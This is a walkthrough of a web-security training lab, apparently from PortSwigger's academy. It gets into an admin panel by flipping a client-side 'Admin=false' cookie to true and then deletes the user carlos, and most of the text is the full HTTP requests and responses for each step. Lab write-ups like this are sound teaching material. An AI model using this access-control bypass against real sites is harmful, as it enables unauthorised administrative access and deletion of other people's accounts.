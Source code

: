 ## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](./img/Solved_the_Lab.png)

## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.  
![](./img/Cookie_Browser_Alternative_Lab_2.png)